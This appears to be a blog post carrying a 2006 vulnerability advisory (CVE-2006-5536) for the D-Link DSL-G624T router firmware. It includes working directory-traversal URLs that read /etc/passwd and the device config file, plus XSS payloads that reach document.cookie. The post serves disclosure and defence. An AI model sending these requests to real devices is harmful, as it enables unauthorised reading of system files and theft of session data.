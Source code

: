 ```yaml
---
title: "CVE-2006-5536: D-Link DSL-G624T several vulnerabilities"
date: "2006-10-26"
image: assets/images/cve-e1551995202504.png
author: jpalanco
layout: post
categories: [ advisories ]
tags: [ d-link, directory listing, directory transversal, xss, featured ]
---
```

Directory traversal vulnerability in cgi-bin/webcm in D-Link DSL-G624T firmware 3.00B01T01.YA-C.20060616 allows remote attackers to read arbitrary files via a .. (dot dot) in the getpage parameter.



# Researcher

José Ramón Palanco: jpalanco@gmail.com


# Details

## Vulnerabilities

### Directory transversal

Examples:

http://router/cgi-bin/webcm?getpage=/./././././././etc/passwd

http://router/cgi-bin/webcm?getpage=/./././././././etc/config.xml

### Cross Site Scripting 

Affected url: http://router/cgi-bin/webcm 

|Method|Variable|Value|
|---|---|---|
| POST | upnp%3Asettings%2Fstate | >"><ScRiPt%20%0a%0d>alert(document.cookie)%3B</ScRiPt> |
| POST | upnp%3Asettings%2Fconnection | >"><ScRiPt%20%0a%0d>alert(document.cookie)%3B</ScRiPt> |
| POST | upnp%3Asettings%2Fconnection | "+onmouseover="alert(document.cookie) |

### Directory listing 

Affected: /cgi-bin directory

## Products and Versions

- Vendor: D-LINK
- Product: DSL-G624T
- Version: V3.00B01T01.YA-C.20060616

### CPE v2.3
cpe:2.3:h:d-link:dsl-g624t:firmware_3.00b01t01.ya_c.2006-06-16:*:*:*:*:*:*:*

### CVSS Scores & Vulnerability Types


|Name|Value|
|--- |
|CVSS Score	| 5.0
|Confidentiality Impact |	Partial (There is considerable informational disclosure.)
|Integrity Impact | None (There is no impact to the integrity of the system)
|Availability Impact | None (There is no impact to the availability of the system.)
|Access Complexity | Low (Specialized access conditions or extenuating circumstances do not exist. Very little knowledge or skill is required to exploit. )
|Authentication | Not required (Authentication is not required to exploit the vulnerability.)
|Gained Access | None
|Vulnerability Type(s) | Directory traversal
|CWE ID | CWE id is not defined for this vulnerability

## References

- [BID 20689 D-Link DSL-G624T Information Disclosure Vulnerability Release Date:2007-05-03](http://www.securityfocus.com/bid/20689){:target="_blank"}
- [VUPEN ADV-2006-4191](http://www.vupen.com/english/advisories/2006/4191){:target="_blank"}
- [BUGTRAQ 20061023 D-Link DSL-G624T several vulnerabilities](http://www.securityfocus.com/archive/1/449486/100/0/threaded){:target="_blank"}
- [SREASON 1781](http://securityreason.com/securityalert/1781){:target="_blank"}








